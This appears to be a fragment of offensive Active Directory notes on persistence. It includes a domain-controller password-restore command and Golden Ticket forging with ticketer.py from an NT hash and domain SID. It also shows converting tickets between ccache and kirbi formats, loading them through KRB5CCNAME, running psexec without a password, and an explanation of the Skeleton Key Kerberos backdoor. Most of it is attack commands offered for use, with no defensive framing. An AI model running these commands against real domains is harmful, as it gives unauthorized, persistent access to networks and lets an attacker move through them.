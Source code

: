 > python3 restorepassword.py DOMAIN/DC-NAME@DC-NAME -target-ip DC-IP -hexpass HEXKEY





*****************************************************************************************************************************************************************************************************************************************







# AD backdoor and Persistance


Golden Tickets are also form of persistance


If we have a users sid , and hash we can create ticket on linux and then convert the .ccache ticket to kirbi and use on target

> python ticketer.py -nthash f3bc61e97fb14d18c42bcbf6c3a9055f -domain-sid S-1-5-21-3523557010-2506964455-2614950430 -domain domain.name username

We can convert ticket format to .ccache if we want to use with tools like psexec smbexec ,crackmapexec directly in session. .kirbi format only works in windows so if we use this,it will make some noise

- Ticket formats converting(linux and windows)

we can use ticket_converter.py to convert the types
ccache is compatible with linux and kirbi with windows

python ticket_converter.py ticket.kirbi ticket.ccache
python ticket_converter.py ticket.ccache ticket.kirbi


To inject the ticket directly in our sessions from linux

> export KRB5CCNAME=ticket.ccache  

KRB5CCNAME is a env variable used to store ticket path

now we can use any tool like smbexec,crackmapexec etc and pass the -k flag which will automatically include ticket from env var . 

> python psexec.py domain.name/user@TARGETIP-k -no-pass




### Skeleton Key Overview -

The skeleton key works by abusing the AS-REQ encrypted timestamps as I said above, the timestamp is encrypted with the users NT hash. The domain controller then tries to decrypt this timestamp with the users NT hash, once a skeleton key is implanted the domain controller tries to decrypt the timestamp using both the user NT hash and the skeleton key NT hash allowing you access to the domain forest.

The Kerberos backdoor works by implanting a skeleton key that abuses the way that the AS-REQ validates encrypted timestamps. A skeleton key only works using Kerberos RC4 encryption. 
